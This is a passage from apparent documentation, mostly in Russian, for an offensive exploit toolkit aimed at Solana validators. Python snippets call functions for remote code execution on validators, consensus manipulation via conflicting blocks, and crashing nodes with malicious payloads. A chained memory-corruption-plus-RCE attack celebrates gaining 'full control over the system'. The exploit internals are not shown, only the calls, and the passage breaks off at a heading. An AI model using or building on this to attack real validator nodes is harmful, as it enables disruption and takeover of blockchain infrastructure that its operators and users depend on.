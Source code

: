 ```python
config = ValidatorExploitConfig(
    target_validator="validator_endpoint",
    vulnerability_type=ValidatorVulnerability.RCE_VULNERABILITY,
    rpc_endpoint="https://api.devnet.solana.com"
)

result = await validator_exploit.exploit_rce_vulnerability(config)
```

#### 2. Consensus Manipulation
- **Техника**: Создание conflicting блоков
- **Цель**: Нарушение consensus механизма

```python
result = await validator_exploit.exploit_consensus_manipulation(config)
```

#### 3. Validator Crash
- **Техника**: Malicious payloads для краша
- **Цель**: Отключение validator узлов

```python
result = await validator_exploit.exploit_validator_crash(config)
```

## 🎯 Комбинированные атаки

### Memory + Validator RCE

Комбинация memory corruption и validator RCE для максимального эффекта:

```python
# Этап 1: Memory corruption для получения привилегий
memory_result = await memory_exploit.exploit_arbitrary_readwrite(memory_config)

if memory_result.status == ExploitStatus.SUCCESS:
    # Этап 2: Validator RCE атака
    validator_result = await validator_exploit.exploit_rce_vulnerability(validator_config)
    
    if validator_result.rce_successful:
        print("🎯 ПОЛНЫЙ КОНТРОЛЬ НАД СИСТЕМОЙ!")
```

## 📊 Тестирование и анализ

### Запуск продвинутых тестов:

```bash
python test_advanced_exploits.py
```

### Функции тестирования:
